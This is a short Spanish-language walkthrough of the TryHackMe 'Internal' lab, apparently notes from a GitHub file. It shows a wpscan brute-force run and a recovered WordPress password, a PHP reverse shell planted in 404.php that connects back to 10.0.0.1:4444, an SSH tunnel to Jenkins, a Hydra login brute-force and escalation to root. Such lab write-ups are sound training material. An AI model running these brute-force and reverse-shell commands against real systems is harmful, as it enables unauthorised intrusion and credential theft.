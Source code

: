 # Internal - TryHackMe

##  WordPress (admin/my2boys)

```bash
wpscan --url http://10.10.137.140/blog -U admin -P /usr/share/wordlists/rockyou.txt
Reverse Shell en 404.php:

  ```

```bash
php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
  ```

## Acceso a Jenkins
```bash

ssh -L 9999:127.0.0.1:8080 aubreanna@10.10.137.140
  ```
## Fuerza bruta con Hydra:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 9999 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid"
  ```

```bash

su root
  ```